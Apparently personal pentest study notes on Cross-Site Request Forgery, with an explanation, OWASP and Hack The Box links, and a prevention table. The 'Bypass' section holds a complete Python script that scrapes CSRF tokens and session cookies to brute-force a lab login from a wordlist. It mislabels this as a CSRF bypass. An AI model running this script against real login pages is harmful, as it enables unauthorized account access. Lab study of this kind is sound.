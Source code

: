 ```yaml
---
tags:
  - Enumeration
  - TCP
  - HTTP
  - Concepts
  - Vulnerabilities
  - HyperTextTransferProtocol
---
```


A Cross-Site Request Forgery (XSRF) is also known as “one-click attack” and “session riding”. The idea is that an attacker can craft a URL such that when a target visits it, some actions or commands are taken that the user may not have wanted to take. For a site that’s vulnerable to XSRF, this can be a nasty attack, since the attacker can control the text of the link they send the target, making it not too hard to trick people into clicking on links.

`CSRF` attacks may utilize [[Cross Site Scripting (XSS)]] vulnerabilities to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user. It may also utilize other vulnerabilities to perform the same functions, like utilizing HTTP parameters for attacks.

# Guide 

[Cross-Site Request Forgery Prevention - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
# Walkthrough

[HTB: SecNotes | 0xdf hacks stuff](https://0xdf.gitlab.io/2019/01/19/htb-secnotes.html)

## Prevention

Though there should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end before it reaches the back end, and especially if this code may be displayed directly on the client-side without communicating with the back end. Two main controls must be applied when accepting user input:

|Type|Description|
|---|---|
|`Sanitization`|Removing special characters and non-standard characters from user input before displaying it or storing it.|
|`Validation`|Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)|

# Bypass

1. [[Burp]] can be used to bypass CRSF
2. Manual script:

```
#!/usr/bin/env python3

import re
import requests
import sys
from multiprocessing import Pool


MAX_PROC = 50
url = "http://monitor.bart.htb/"
username = "harvey"

#<input type="hidden" name="csrf" value="aab59572a210c4ee1f19ab55555a5d829e78b8efdbecd4b2f68bd485d82f0a57" />
csrf_pattern = re.compile('name="csrf" value="(\w+)" /')

def usage():
    print("{} [wordlist]".format(sys.argv[0]))
    print("  wordlist should be one word per line]")
    sys.exit(1)

def check_password(password):

    # get csrf token and PHPSESSID
    r = requests.get(url)
    csrf = re.search(csrf_pattern, r.text).group(1)
    PHPSESSID = [x.split('=')[1] for x in r.headers['Set-Cookie'].split(';') if x.split('=')[0] == 'PHPSESSID'][0]

    # try login:
    data = {"csrf": csrf,
            "user_name": username,
            "user_password": password,
            "action": "login"}
    proxies = {'http': 'http://127.0.0.1:8080'}
    headers = {'Cookie': "PHPSESSID={}".format(PHPSESSID)}
    r = requests.post(url, data=data, proxies=proxies, headers=headers)

    if '<p>The information is incorrect.</p>' in r.text:
        return password, False
    else:
        return password, True


def main(wordlist, nprocs=MAX_PROC):
    with open(wordlist, 'r', encoding='latin-1') as f:
       words = f.read().rstrip().replace('\r','').split('\n')

    words = [x.lower() for x in words] + [x.capitalize() for x in words] + words + [x.upper() for x in words]

    pool = Pool(processes=nprocs)

    i = 0
    print_status(0, len(words))
    for password, status in pool.imap_unordered(check_password, [pass_ for pass_ in words]):
        if status:
            sys.stdout.write("\n[+] Found password: {} \n".format(password))
            pool.terminate()
            sys.exit(0)
        else:
            i += 1
            print_status(i, len(words))

    print("\n\nPassword not found\n")

def print_status(i, l, max=30):
    sys.stdout.write("\r|{}>{}|  {:>15}/{}".format( "=" * ((i*max)//l), " " * (max - ((i*max)//l)), i, l))

if __name__ == '__main__':
    if len(sys.argv) != 2:
        usage()
    main(sys.argv[1])

```
